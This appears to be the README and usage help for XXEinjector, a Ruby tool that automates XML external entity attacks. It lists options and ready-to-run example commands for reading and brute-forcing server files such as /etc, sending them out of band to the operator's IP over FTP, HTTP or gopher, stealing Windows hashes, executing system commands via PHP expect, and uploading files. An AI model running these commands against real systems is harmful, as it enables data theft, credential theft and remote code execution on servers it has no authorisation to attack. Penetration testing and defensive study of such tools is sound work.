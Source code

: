 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using direct and out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:<br />
  --host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)<br />
  --file	Mandatory - file containing valid HTTP request with xml. You can also mark with "XXEINJECT" a point where DTD should be injected. (--file=/tmp/req.txt)<br />
  --path	Mandatory if enumerating directories - Path to enumerate. (--path=/etc)<br />
  --brute	Mandatory if bruteforcing files - File with paths to bruteforce. (--brute=/tmp/brute.txt)<br />
  --logger	Log results only. Do not send requests. HTTP logger looks for "p" parameter with results.<br />
  
  --rhost	Remote host's IP address or domain name. Use this argument only for requests without Host header. (--rhost=192.168.0.3)<br />
  --rport	Remote host's TCP port. Use this argument only for requests without Host header and for non-default values. (--rport=8080)<br />

  --oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)<br />
  --direct    Use direct exploitation instead of out of band. Unique mark should be specified as a value for this argument. This mark specifies where results of XXE start and end. Specify --xml to see how XML in request file should look like. (--direct=UNIQUEMARK)<br />
  --2ndfile	File containing valid HTTP request used in second order exploitation. (--2ndfile=/tmp/2ndreq.txt)<br />
  --phpfilter	Use PHP filter to base64 encode target file before sending.<br />
  --netdoc      Use netdoc protocol instead of file (Java).<br />
  --enumports	Enumerating unfiltered ports for reverse connection. Specify value "all" to enumerate all TCP ports. (--enumports=21,22,80,443,445)<br />

  --hashes	Steals Windows hash of the user that runs an application.<br />
  --expect	Uses PHP expect extension to execute arbitrary system command. Best works with HTTP and PHP filter. (--expect=ls)<br />
  --upload	Uploads specified file using Java jar schema into temp file. (--upload=/tmp/upload.txt)<br />
  --xslt	Tests for XSLT injection.<br />

  --ssl		Use SSL.<br />
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)<br />
  --httpport	Set custom HTTP port. (--httpport=80)<br />
  --ftpport	Set custom FTP port. (--ftpport=21)<br />
  --gopherport	Set custom gopher port. (--gopherport=70)<br />
  --jarport	Set custom port for uploading files using jar. (--jarport=1337)<br />
  --xsltport	Set custom port for XSLT injection test. (--xsltport=1337)<br />

  --urlencode	URL encode injected DTD. This is default for URI.<br />
  --nodtd	If you want to put DTD in request by yourself. Specify "--dtd" to show how DTD should look like.<br />
  --output  Output file for bruteforcing and logger mode. By default it logs to brute.log in current directory. (--output=/tmp/out.txt)<br />
  --timeout	Timeout for receiving file/directory content. (--timeout=20)<br />
  --contimeout	Timeout for closing connection with server. This is used to prevent DoS condition. (--contimeout=20)<br />
  --fast	Skip asking what to enumerate. Prone to false-positives.<br />
  --verbose	Show verbose messages.<br />

Example usage:<br />
  Enumerating /etc directory in HTTPS application:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl<br />
  Enumerating /etc directory using gopher for OOB method:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher<br />
  Second order exploitation:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt<br />
  Bruteforcing files using HTTP out of band method and netdoc protocol:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc<br />
  Enumerating using direct exploitation:<br />
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK<br />
  Enumerating unfiltered ports:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all<br />
  Stealing Windows hashes:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes<br />
  Uploading files using Java jar:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf<br />
  Executing system commands using PHP expect:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls<br />
  Testing for XSLT injection:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt<br />
  Log requests only:<br />
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt<br />
